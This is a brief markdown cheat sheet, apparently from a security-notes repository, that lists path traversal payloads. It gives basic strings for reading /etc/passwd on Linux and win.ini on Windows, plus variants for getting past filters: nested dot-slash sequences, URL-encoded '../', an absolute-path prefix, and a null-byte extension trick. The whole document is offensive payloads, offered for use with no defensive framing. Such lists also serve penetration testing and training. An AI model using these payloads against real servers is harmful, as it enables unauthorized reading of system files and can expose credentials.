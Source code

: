 # Path Traversal Cheat Sheet
___
#### Common Method
```txt
../../../etc/passwd >> For linux

..\..\..\windows\win.ini >> For windows
```
#### Bypassing Defence Mechanism
```txt
Sequence block bypass >> ....//....//....//....//etc/passwd
Encoding ../ >> %2e%2e%2f
Absolute path >> /var/www/images/../../../etc/passwd
Using null byte >> ../../../etc/passwd%00.png
```
